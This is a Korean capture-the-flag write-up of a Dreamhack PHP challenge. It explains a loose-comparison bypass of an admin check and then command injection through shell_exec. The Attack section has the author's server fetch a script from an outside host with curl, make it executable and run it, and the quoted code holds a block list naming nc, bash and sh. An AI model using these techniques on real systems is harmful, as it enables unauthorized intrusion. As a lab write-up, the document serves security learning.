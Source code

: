 ```yaml
---
title: Switching Commnad
author: heogi
date: 2024-01-07
categories:
  - Dreamhack
  - CTF
tags:
  - Dreamhack
  - php
  - loose-comparision
comments: true
---
```

## **0\. Description**

Not Friendly service… Can you switching the command?

## **1\. Analysis**

페이지에 접속하면 Username을 입력할 수 있는 화면이 보인다.

다운로드 받은 코드를 확인해보면 사용자 입력값에 대해 json\_decode()를 통해 json 데이터를 파싱한다.

Username이 admin일 경우 Admin Session을 가지고 test.php로 이동한다.

```php
#index.php
if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
```

첫번째 문제는 switch 문에서 case "admin"으로 진입해 admin 세션을 할당받아야하는데 "admin" 문자열은 필터링이 되고있다.

admin 필터링에서는 `===(strict comparision)`을 사용하여 자료형까지 같은지 확인하고있다.

하지만 switch/case 문에서는 아래 처럼 `loose comparision`을 사용한다고 되어있다.

![](../assets/img/Pasted%20image%2020240413002912.png)

이 부분을 이용하여 `username={"username":true}`를 입력하면 "admin" 필터링은 우회하며, case "admin": 문은 통과할 수 있다.

![](../assets/img/Pasted%20image%2020240413002927.png)

![](../assets/img/Pasted%20image%2020240413002934.png)
![](../assets/img/Pasted%20image%2020240413002943.png)
다음은 test.php의 내용을 통해 flag를 획득해야한다. 아래는 test.php의 내용이다.

```
#test.php
$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
```

cmd 파라미터를 통해 입력 받은 값을 `shell_exec()`로 실행한다.

과정에서 특정 문자열 패턴과 `escapeshellcmd()`를 통해 Sanitize를 수행한다.

결국 cmd는 서버 내부에서 실행되는 명령으로 다양한 서버 명령을 사용해볼 수 있다.

하지만 test.php에서 `$result` 변수는 화면에 출력이 되도록 되어있지만, `$resulttt`는 출력이 되지 않아 단순히 플래그를 실행하여 값을 확인할 수는 없다.

wget 또는 curl을 통해 원격지에서 파일을 받을 수 있는지 테스트해보니 curl을 통해 원격지 파일을 다운로드 받을 수 있음을 확인했다.

PHP 웹쉘 또는 `/flag`를 실행하여 pattern에 걸리지 않는 이름으로 파일을 생성하여 접근해보는 방법이 있을거같다.

## **2\. Attack**

후자로 진행을 해보면 아래 처럼 플래그를 획득할 수 있다.

```
#Filename:heogi
#!/bin/bash

/flag > te.ttt
```

```
1. GET /test.php?cmd=curl ctf.heogi.com/heogi -o heogi
2. GET /test.php?cmd=chmod 777 heogi
3. GET /test.php?cmd=/var/www/html/heogi
4. GET /te.ttt
```

![](../assets/img/Pasted%20image%2020240413002955.png)
